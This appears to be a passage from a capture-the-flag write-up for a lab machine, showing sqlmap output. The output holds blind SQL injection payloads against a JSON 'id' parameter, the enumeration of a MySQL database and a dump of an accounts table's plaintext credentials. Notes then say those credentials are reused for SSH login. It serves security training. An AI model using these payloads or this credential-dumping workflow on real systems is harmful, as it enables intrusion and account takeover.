 ```
[*] starting @ 13:19:13 /2025-06-03/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[13:19:13] [INFO] resuming back-end DBMS 'mysql' 
[13:19:13] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-2160 OR 3784=3784"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 1602 FROM (SELECT(SLEEP(5)))atwD)"}
---
[13:19:17] [INFO] testing MySQL
[13:19:18] [INFO] confirming MySQL
[13:19:18] [INFO] the back-end DBMS is MySQL
[13:19:18] [INFO] fetching banner
[13:19:18] [INFO] resumed: 8.0.31-0ubuntu0.20.04.2
[13:19:18] [INFO] executing MySQL comment injection fingerprint
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: active fingerprint: MySQL >= 8.0.0
               comment injection fingerprint: MySQL 8.0.31
               banner parsing fingerprint: MySQL 8.0.31
banner: '8.0.31-0ubuntu0.20.04.2'
[13:19:18] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[13:19:18] [INFO] fetching current database
[13:19:18] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:19:18] [INFO] retrieved: soccer_db
[13:20:41] [INFO] fetching tables for database: 'soccer_db'
[13:20:41] [INFO] fetching number of tables for database 'soccer_db'
[13:20:41] [INFO] resumed: 1
[13:20:41] [INFO] resumed: accounts
[13:20:41] [INFO] fetching columns for table 'accounts' in database 'soccer_db'
[13:20:41] [INFO] retrieved: 4
[13:20:50] [INFO] retrieved: id
[13:21:11] [INFO] retrieved: email
[13:21:58] [INFO] retrieved: username
[13:23:07] [INFO] retrieved: password
[13:24:20] [INFO] fetching entries for table 'accounts' in database 'soccer_db'
[13:24:20] [INFO] fetching number of entries for table 'accounts' in database 'soccer_db'
[13:24:20] [INFO] retrieved: 1
[13:24:28] [INFO] retrieved: player@player.htb
[13:26:56] [INFO] retrieved: 1324
[13:27:44] [INFO] retrieved: PlayerOftheMatch2022
[13:30:43] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```
- we get user player and their password 
- attempt to login to ssh as we get the info from our initial port scan
- we can login to target with player credential
```
```